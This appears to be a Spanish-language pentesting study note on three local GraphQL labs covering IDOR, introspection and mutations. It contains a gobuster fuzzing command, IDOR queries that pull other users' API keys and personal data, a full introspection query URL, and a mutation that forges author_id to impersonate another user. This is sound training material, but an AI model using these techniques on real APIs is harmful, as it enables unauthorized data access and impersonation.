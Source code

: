 
# 🌐 GraphQL: IDOR, Introspection y Mutations

## 🔍 Parte Teórica

### 📝 Introducción a GraphQL
GraphQL es un lenguaje de consulta para APIs que permite a los clientes solicitar solo los datos que necesitan, en lugar de recibir respuestas fijas como en REST. Esto lo hace más flexible y eficiente.


---

## 🛠️ Parte Práctica

### 🧪 Laboratorio 1: GraphQL IDOR
1. **Entrada al laboratorio**  
   Directorio: `nodeJs/Graphql-IDOR/`  
   Comandos:
   ```bash
   npm install --force
   npm start
   ```
   - Aplicación en `http://localhost:5000`

2. **Interfaz de login**  
   ```
   # Live demonstration!
   GraphQL
   username []
   password []
   
   Submit Button
   ```
   - Credenciales: `johndoe:password1`

3. **Fuzzing de rutas**  
   ```bash
   gobuster dir -u http://localhost:5000 -w ../hacking/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
   ```
   Resultados destacados:
   ```
   /login (Status: 200)
   /settings (Status: 302)
   ```

4. **Explotación IDOR**  
   - Petición interceptada:
   ```java
   POST /graphql HTTP/1.1
   ...
   {"query":"{ UserInfo (id: 1) {\n api_key\n name\n surname\n date_of_birth\n }}\n"}
   ```
   - Modificación para IDOR:
```graphql
{ UserInfo (id: 2) {
 api_key
 name
 surname
 date_of_birth
}}
```

### 🔎 Enumeración de GraphQL
1. **Laboratorio de Introspection**  
   Directorio: `nodeJs/Graphql-Introspection/`  
   Comandos:
   ```bash
   npm install --force
   npm start
   ```

2. **Consulta básica**  
   ```graphql
   query={__schema{types{name,fields{name}}}
   ```

3. **Consulta completa para Voyager**  

   Para visualizarlo mejor esta bueno utilizar [[GRaphQL Voyager]] que es una herramienta que permite interactuar con APIs GraphQL de manera visual.
   La url acomodada nos quedaria asi
```
http://localhost:5000/graphql?query=fragment%20FullType%20on%20Type%20{+%20%20kind+%20%20name+%20%20description+%20%20fields%20{+%20%20%20%20name+%20%20%20%20description+%20%20%20%20args%20{+%20%20%20%20%20%20...InputValue+%20%20%20%20}+%20%20%20%20type%20{+%20%20%20%20%20%20...TypeRef+%20%20%20%20}+%20%20}+%20%20inputFields%20{+%20%20%20%20...InputValue+%20%20}+%20%20interfaces%20{+%20%20%20%20...TypeRef+%20%20}+%20%20enumValues%20{+%20%20%20%20name+%20%20%20%20description+%20%20}+%20%20possibleTypes%20{+%20%20%20%20...TypeRef+%20%20}+}++fragment%20InputValue%20on%20InputValue%20{+%20%20name+%20%20description+%20%20type%20{+%20%20%20%20...TypeRef+%20%20}+%20%20defaultValue+}++fragment%20TypeRef%20on%20Type%20{+%20%20kind+%20%20name+%20%20ofType%20{+%20%20%20%20kind+%20%20%20%20name+%20%20%20%20ofType%20{+%20%20%20%20%20%20kind+%20%20%20%20%20%20name+%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20}+%20%20%20%20}+%20%20}+}++query%20IntrospectionQuery%20{+%20%20schema%20{+%20%20%20%20queryType%20{+%20%20%20%20%20%20name+%20%20%20%20}+%20%20%20%20mutationType%20{+%20%20%20%20%20%20name+%20%20%20%20}+%20%20%20%20types%20{+%20%20%20%20%20%20...FullType+%20%20%20%20}+%20%20%20%20directives%20{+%20%20%20%20%20%20name+%20%20%20%20%20%20description+%20%20%20%20%20%20locations+%20%20%20%20%20%20args%20{+%20%20%20%20%20%20%20%20...InputValue+%20%20%20%20%20%20}+%20%20%20%20}+%20%20}+}
```

   y nos devolvera un json con todos los tipos y campos disponibles en el esquema GraphQL. y ese resultado lo pasamos a [[GraphQL Voyager]] para visualizarlo mejor.

   > si sale error, a lo que tenga por ejemplo Type, ponerle __`__Type` y a lo que tenga por ejemplo InputValue ponerle `__InputValue` y asi sucesivamente con los tipos que salgan en el json.

   Esto es muy comodo porque al llevarlo al [[GraphQL Voyager]] podemos ver los tipos y campos de una manera visual y asi podemos ver que tipo de consultas podemos hacer.
   
   URL larga con introspection query → Importar a [[GraphQL Voyager]]  
   
   ![[Pasted image 20250728000052.png]]

4. **Ejemplo de consultas**  
   ```json
   {"query":"{Users{id}}"}
   {"query":"{Users{username}}"}
   ```

### ✏️ Mutaciones en GraphQL
1. **Laboratorio de Mutations**  
   Directorio: `nodeJs/Graphql-Mutations/`  
   Comandos:
   ```bash
   npm install --force
   npm start
   ```

2. **Ejemplo de mutación**  
   ```json
   {
     "query": "mutation { 
       createPost(
         title: \"This is a new title\", 
         body: \"This is a new post\", 
         author_id: 2
       ) { 
         id, title, body, author_id 
       }
     }"
   }
   ```
   - Modificar `author_id` para suplantación

## 🔗 Recursos Recomendados
- [[BurpSuite]] para interceptar peticiones
- [[Gobuster]] para fuzzear rutas
- [[GraphQL Voyager]] para visualización
- [[Hack Tricks]] GraphQL: [enlace](https://book.hacktricks.xyz/en/network-services-pentesting/pentesting-web/graphql)
- [[OWASP]]

